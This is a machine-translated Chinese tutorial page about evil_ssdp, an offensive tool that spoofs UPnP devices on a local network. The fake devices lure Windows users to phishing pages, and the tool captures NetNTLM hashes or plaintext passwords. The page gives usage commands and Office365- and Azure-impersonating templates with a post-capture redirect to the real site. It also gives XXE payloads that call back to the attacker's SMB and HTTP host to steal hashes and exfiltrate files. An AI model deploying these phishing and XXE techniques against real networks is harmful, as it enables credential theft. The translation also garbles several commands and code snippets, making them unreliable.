

# 邪恶的 SSDP:制造假的 UPnP 设备到费西合唱团做凭证

> 原文：<https://kalilinuxtutorials.com/evil-ssdp/>

[](https://1.bp.blogspot.com/-KiRYCQ2KDIs/XmjHK1i0WrI/AAAAAAAAFYw/XXrG7FMC6ZkuSEjMMZEBAkaI9K84LX6MACLcBGAsYHQ/s1600/Spoof%2BSSDP%25281%2529.png)

**邪恶的 SSDP** 响应 SSDP 多播发现请求，伪装成普通的 UPNP 设备。您的欺骗设备将神奇地出现在本地网络中的计算机的 Windows 资源管理器中。

试图打开设备的用户会看到一个可配置的钓鱼页面。此页面可以通过 SMB 加载隐藏映像，允许您捕获或中继 NetNTLM 质询/响应。

还提供了模板来通过基本身份验证和登录表单捕获明文凭据，并且创建您自己的自定义模板既快速又简单。

这不需要现有的凭证来执行，并且即使在通过禁用 NETBIOS 和 LLMNR 来防止响应者攻击的网络上也能工作。任何利用 SSDP/UPNP 的操作系统或应用程序都可以成为攻击目标，但当前大多数武器化都是针对 Windows 10 的。

另外，该工具还可以检测和利用使用 SSDP/UPNP 的应用程序的 XML 解析引擎中潜在的零日漏洞。如果发现易受攻击的设备，它会在用户界面中向您发出警告，然后通过 XML 外部实体(XXE)攻击装载您的 SMB 共享或渗出数据，无需用户交互。

**也可阅读-[Ghost:远程访问安卓设备的安卓调试桥](https://kalilinuxtutorials.com/ghost/)**

**用途**

最基本的运行如下所示:

**evil_ssdp.py eth0**

您至少需要提供网络接口。该接口用于 UDP SSDP 交互以及托管 XML 文件和网络钓鱼页面的 web 服务器。

该工具将使用您提供的接口 IP 自动更新网络钓鱼页面中的 IMG 标签。要处理挑战/响应，您需要在该界面启动一个 SMB 服务器(如 Impacket)。这个地址可以用-s 选项定制。

**一些示例场景:**

#使用 wlan0 进行设备广告和网络钓鱼，通过假冒的 Office365 登录表单捕获 NetNTLM 和
#请求明文。重定向到
# Microsoft after capture credentials:
evil _ ssdp . py WLAN 0-t office 365-u ' https://office . Microsoft . com '

#同上，但假设您的 SMB 服务器运行在另一个 IP 上:
evil _ ssdp . py WLAN 0-t office 365-u ' https://office . Microsoft . com ' \
-s 192 . 168 . 1 . 205

#提示使用凭据

**完整使用详情:**

**用法:**evil _ ssdp . py[-h][-p PORT][-t TEMPLATE][-s SMB][-b][-r REALM]
[-u URL]
接口

**位置参数:**
接口网络接口监听。

**可选参数:**
-h，–help 显示此帮助信息并退出
-p PORT，–PORT 端口 HTTP 服务器的端口。默认为 8888。
-t TEMPLATE，–TEMPLATE TEMPLATE
templates 目录中文件夹的名称。默认
为“office365”。这将确定使用的 xml 和网络钓鱼
页面。
-s SMB，您的 SMB 服务器的 smb SMB IP 地址。默认为所提供的“接口”的主地址。
-b，–基本为模板启用 base64 身份验证，并将凭据写入日志文件。
-r 领域，–领域领域
通过
基本认证提示目标进行认证时的领域。
-u URL，–URL URL 重定向到此 URL。使用为登录表单执行
POST 的模板，以及包含
自定义重定向 JavaScript 的模板(更多
信息参见 README)。[示例:-r https://google.com]
-a，–在分析模式下运行分析。将不响应任何 SSDP 查询，但仍将启用并运行 web 服务器进行测试。

**模板**

该工具附带了以下模板。如果你有好的设计技巧，请贡献一个你自己的！

*   `**office365**`:将在 Windows 资源管理器中显示为“Office365 备份”。看起来像 Office365 登录的钓鱼页面会将凭据发回给您。这些将在用户界面中进行标记，并记录在日志文件中。建议使用'-u[https://www.office.com](https://www.office.com)运行，在窃取用户凭证后将用户重定向到合法网站。开发者:[五旬节派](https://github.com/pentestgeek/phishing-frenzy-templates)。
*   `**scanner**`:将在 Windows 资源管理器中显示为名为“公司扫描仪[等待 3 个新扫描]”的扫描仪。双击将进入一个普通外观的登录页面。这个模板可以很好地为您的特定目标进行定制。模板大多是从[这个模板](http://codepen.io/miroot/pen/qwIgC)复制过来的。
*   `**microsft-azure**`:将在 Windows 资源管理器中显示为“Microsoft Azure Storage”。登录页面是禁用 cookies 时的 Windows Live 登录页面。建议与-u 选项一起使用，将用户重定向到真正的登录页面。开发者:[德怀特·霍恩斯坦](https://github.com/djhohnstein)。
*   `**bitcoin**`:将在 Windows 资源管理器中显示为“比特币钱包”。钓鱼页面只是一组随机的比特币私人/公共/地址信息。这些账户中没有实际资金。
*   `**password-vault**`:将在 Windows 资源管理器中显示为“IT 密码库”。钓鱼页面包含一个简短的假密码/ ssh 密钥列表等。
*   `**xxe-smb**`:不太可能出现在 Windows 资源管理器中。用于查找 XML 解析器中的零日漏洞。将在用户界面中触发“XXE-VULN”警报，并尝试强制客户端向 SMB 服务器进行身份验证，无需任何交互。
*   **`xxe-exfil` :** 另一个搜索 XXE 漏洞的例子，但这次是试图从 Windows 主机中泄漏一个测试文件。当然，您可以定制它来查找您想要的任何特定文件，Windows 或 Linux。在我发现的易受攻击的应用程序中，渗透只对没有空格或换行符的文件起作用。这是由于它是如何被注入到 GET 请求的 URL 中的。如果你在多行文件上得到这个工作，请让我知道你是怎么做的。

创建自己的模板很容易。只需复制现有模板的文件夹并编辑以下文件:

*   **`device.xml` :** 您可以在这里定义设备在 Windows 资源管理器中的外观。
*   **`present.html` :** 这是当目标打开邪恶设备时显示的钓鱼页面。在这里做你喜欢的任何东西。注意 Python 的字符串模板会解析这个，所以你需要在任何地方使用`$$`代替`$`来逃避模板引擎。
*   **`service.xml` :** 尚未实施。将来可能需要更复杂的 UPNP 欺骗。

在您的网络钓鱼页面(`**present.html**`)中，使用类似以下的变量来获得附加功能:

**#以下行将使用您提供的接口的 IP 地址或可选指定的 IP 地址发起 NetNTLM 质询/响应:**

**#以下将利用可选地指定 URL 重定向。这在与基本身份验证一起使用以重定向到有效站点时非常方便。这一行是内置到 microsoft-azure 模板中的:**
<script>
var URL = " $ redirectUrl "；
如果(网址！= " "){
document . location = URL；
}
</script>
#如果使用 HTTP 表单捕获明文凭证，请使用如下代码。此外，任何进行 POST 请求的模板都将自动支持'-u '参数，以便在 POST 完成后进行重定向。该工具将监视到此 URL 的帖子以获取凭据:
<form method = " POST " action = "/ssdp/do _ log in . html " name = " LoginForm ">

该工具目前只能正确创建 UPNP“基本”设备类型的设备，但它可以响应所有设备类型的 SSDP 查询。如果您非常了解 UPNP，您可以使用正确的参数创建一个新模板，以满足其他设备类型的请求。在开发特定应用程序以及他们期望和利用 UPNP 设备的方式方面，还有很多需要探索的地方。

**技术细节**

操作系统(Windows、MacOS、Linux、IOS、Android 等)和应用程序(Spotify、Youtube 等)使用简单服务发现协议(SSDP)来发现本地网络上的共享设备。它是发现和宣传通用即插即用(UPNP)设备的基础。

尝试发现共享网络资源的设备将向端口 1900 上的 239.255.255.250 发送 UDP 组播。源端口是随机的。请求示例如下所示:

**M-SEARCH * HTTP/1.1
Host:239 . 255 . 255 . 250:1900
ST:UPnP:root device
Man:" ssdp:discover "
MX:3**

为了与这个主机交互，我们需要捕获源端口和‘ST’(服务类型)报头。响应必须发送到正确的源端口，并且应该包含正确的 ST 报头。请注意，不仅仅是 Windows 操作系统在寻找设备，扫描典型的网络将显示来自操作系统内部应用程序(如 Spotify)、手机和其他媒体设备的大量请求。只有当你回复正确的 ST 时，Windows 才会合作，其他来源更宽松。

evil_ssdp 将提取请求的 ST 并发送如下响应:

**HTTP/1.1 200 OK**
**CACHE-CONTROL:**max-age = 1800
**DATE:**Tue，2018 年 10 月 16 日 20:17:12 GMT
**EXT:**
**LOCATION:**HTTP://192 . 168 . 1 . 214:8888/ssdp/device-desc . XML
ns = 01
**01-NLS:**uuid:7f 7 cc 7 e 1-b631-86f 0-EB B2-3f 4504 b 58 f 5 c
**服务器:**UPnP/1.0
**ST:**UPnP:root device
**USN:**uuid:7f 7 cc 7 e 1-b631-86f 0-EB B2-33UPNP . ORG:0
CONFIGID。UPNP 网站: 1

头(特别是位置、01-NLS、ST 和 USN)是动态构建的。这告诉请求者在哪里可以找到关于我们设备的更多信息。这里，我们强制 Windows(和其他请求者)访问我们的“设备描述符”xml 文件并解析它。USN 只是一个随机的字符串，只需要是唯一的并且格式正确。

evil_ssdp 将从选择的模板文件夹中提取“device.xml”文件，并动态插入一些变量，如您的 IP 地址。在这个“设备描述符”文件中，你可以自定义一些听起来有趣的友好名称和描述。看起来是这样的:

```
<?xml version="1.0"?>
<root >
  <specVersion>
    <major>1</major>
    <minor>0</minor>
  </specVersion>
  <URLBase>http://$local_ip:$local_port</URLBase>
  <device>
    <presentationURL>http://$local_ip:$local_port/present.html</presentationURL>
    <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
    <friendlyName>Office365 Backups</friendlyName>
    <modelDescription>Secure Storage for Office365</modelDescription>
    <manufacturer>MS Office</manufacturer>
    <modelName>Office 365 Backups</modelName>
    <UDN>$session_usn</UDN>
    <serviceList>
      <service>
        <serviceType>urn:schemas-upnp-org:device:Basic:1</serviceType>
        <serviceId>urn:schemas-upnp-org:device:Basic</serviceId>
        <controlURL>/ssdp/service-desc.xml</controlURL>
        <eventSubURL>/ssdp/service-desc.xml</eventSubURL>
        <SCPDURL>/ssdp/service-desc.xml</SCPDURL>
      </service>
    </serviceList>

  </device>
</root>
```

该文件中的一个关键行包含“演示 URL”。如果用户决定手动双击 UPNP 设备，浏览器中就会加载这样的内容。evil_ssdp 将自动托管该文件(来自所选模板文件夹的 present.html)，将您的源 IP 地址插入到 IMG 标签中以访问 SMB 共享，您可以使用类似于 [Impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket) 、 [Responder](https://github.com/SpiderLabs/Responder) 或 [Metasploit](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb) 的工具托管该共享。

IMG 塔奇看起来像这样:

**br>**

**零时差狩猎**

默认情况下，这个工具会强制网络上的设备解析 XML 文件。对解析 XML 的应用程序存在一个众所周知的攻击——[XML 外部实体处理(XXE)](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing) 。

这种针对 UPNP 设备的攻击可能会被忽略，因为攻击方法复杂且不易察觉。然而，evil_ssdp 使得测试网络上易受攻击的设备变得非常容易。简单地运行这个工具，在输出中寻找一个大的`[XXE VULN!!!]`。注意:使用 xxe 模板可能不会在局域网上产生可见的恶意设备，它只适用于零交互场景。

这是通过提供包含以下内容的设备描述符 XML 文件来实现的:

**<？xml 版本="1.0 "？>
<！DOCTYPE 数据[
<！实体 xx 系统“file:////$ SMB _ server/SMB/hash . jpg”>
<！实体 xxe URL 系统“http://$ local _ IP:$ local _ port/ssdp/xxe . html”>
><>&xxe；&xxe URL；</日期>**

当易受攻击的 XML 解析器读取此文件时，它会自动装载 SMB 共享(允许您破解散列或中继)并访问 HTTP URL 以通知您它已被发现。该通知将包含 HTTP 头和 IP 地址，这将为您提供一些关于易受攻击的应用程序的信息。如果您看到这种情况，请务必联系供应商来解决问题。此外，我很乐意听到你使用这个工具发现的任何零天。请务必在您的 CVE 中提及该工具。

[**Download**](https://github.com/initstring/evil-ssdp)